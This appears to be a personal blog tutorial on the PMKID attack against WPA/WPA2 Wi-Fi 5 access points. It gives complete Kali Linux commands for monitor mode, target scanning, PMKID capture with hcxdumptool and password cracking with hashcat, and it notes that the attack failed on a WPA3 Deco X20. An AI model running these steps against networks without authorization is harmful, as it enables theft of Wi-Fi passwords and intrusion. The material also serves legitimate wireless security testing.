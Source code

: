 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) without client involved.  That is 4-way handshake is no longer required.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods has been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020) and [KR00K attack](https://github.com/hexway/r00kie-kr00kie)  (CVE-2019-15126) (tested on March 21, 2020).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)


The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3
```

When you see ```[FOUND PMKID]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

